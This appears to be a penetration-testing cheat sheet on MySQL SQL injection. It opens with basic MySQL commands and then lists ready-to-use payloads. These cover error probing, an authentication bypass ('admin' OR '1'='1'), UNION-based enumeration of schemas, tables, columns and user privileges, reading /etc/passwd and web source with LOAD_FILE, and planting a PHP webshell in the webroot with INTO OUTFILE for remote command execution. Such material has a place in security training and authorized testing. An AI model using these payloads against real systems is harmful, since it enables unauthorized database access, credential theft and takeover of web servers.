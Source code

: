 # SQLi

## MySQL Basics

### Connect to a MySQL Database
```zsh
mysql -u <user> -h <host> -P <port> -p<pass>
```

### Enumerate Databases
```MySQL
SHOW Databases;
```
```MySQL
USE <database>;
```

### Enumerate Tables
```MySQL
SHOW TABLES;
```

```MySQL
DESCRIBE <table>;
```

### Retrieve Data
```MySQL
SELECT * FROM <table>;
```

```MySQL
SELECT <column1>,<column2> FROM <table>;
```

```MySQL
SELECT <column1>,<column2> FROM <table> ORDER BY <column2>;
```

```MySQL
SELECT <column1>,<column2> FROM <table> WHERE <condition>;
```

## SQL Injection
### Check for errors with:
```MySQL
'
```
```MySQL
"
```
```MySQL
#
```
```MySQL
;
```
```MySQL
)
```

### Bypassing a Log in Portal
```MySQL
admin' OR '1'='1
```
```MySQL
admin'-- 
```

### Using a UNION Clause
Remove or add from "2, 3, 4" as needed because the columns need to be "even"
```MySQL
SELECT * from <table> where <column> = '1' UNION SELECT username, 2, 3, 4 from passwords-- '
```

### Detecting the Number of Columns
```MySQL
' order by n-- 
```
where n is the max value that does not cause an error.


-or-

```MySQL
' UNION select 1,2,3-- 
```

### Locating Output
A webapp may or may not display the results of each column. Take note of where the locations of the 1, 2, or 3 are.

### Fingerprinting MySQL Database
#### Current Database
```MySQL
' UNION select 1,database(),2,3-- 
```

#### Find other Databases
```MySQL
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
or
```MySQL
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

#### Enumerate Tables
```MySQL
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='<database>'-- 
```

#### Enumerate Columns
```MySQL
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<table>'-- 
```

#### Extract Data
```MySQL
' UNION select 1, column1, column2, 4 from <database>.<table>-- 
```

### Read Files
#### Determine User
```MySQL
SELECT USER()
```
```MySQL
SELECT CURRENT_USER()
```
```MySQL
SELECT user from mysql.user
```
```MySQL
SELECT user from mysql.user
```
```MySQL
' UNION SELECT 1, user(), 3, 4-- -
```
```MySQL
' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
#### Determine Privileges
```Mysql
SELECT super_priv FROM mysql.user
```
```MySQL
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
```
Find the permissions of a particular user
```MySQL
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- 
```
```Mysql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
```
```MySQL
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- 
```
We Are looking for the FILE Privilege. THis means that we can potentially read and write files.

#### Load FIle
```MySQL
SELECT LOAD_FILE('/etc/passwd');
```
```MySQL
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
We can even get the source code of files if we know the web root.
```MySQL
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- 
```

### Writing Files
#### See Read Files for FILE Privilege
#### secure_file_priv
```MySQL
SHOW VARIABLES LIKE 'secure_file_priv';
```
```MySQL
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
```MySQL
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```
#### SELECT INTO OUTFILE
```MySQL
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
```MySQL
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
```MySQL
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```
```MySQL
' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```
Webroots can be found:
/etc/apache2/apache2.conf
/etc/nginx/nginx.conf
%WinDir%\System32\Inetsrv\Config\ApplicationHost.config
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt

#### Writing a webshell
The webshell:
```php
<?php system($_REQUEST[cmd]); ?>
```
```MySQL
' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
#### Access the webshell
Go to the webshell by going to <IP:PORT>/shell.php?cmd=<command>
